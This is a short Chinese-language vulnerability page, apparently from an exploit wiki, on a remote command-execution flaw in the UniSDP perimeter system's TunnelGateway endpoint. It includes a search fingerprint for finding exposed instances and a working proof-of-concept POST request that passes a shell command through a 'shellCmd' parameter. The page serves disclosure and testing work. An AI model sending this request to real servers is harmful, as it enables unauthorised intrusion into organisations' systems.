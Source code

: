 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

<a-checkbox checked>联软安界 UniSDP 软件定义边界系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="UniSSOView"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1658977938174-b661802b-b5c7-434b-a5e7-6f51afb02db1-20230311204818783.png)

验证POC

```php
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![img](/assets/PeiQi-Wiki/img/1658978044203-53489913-e30b-474a-accf-09c74a9189b7.png)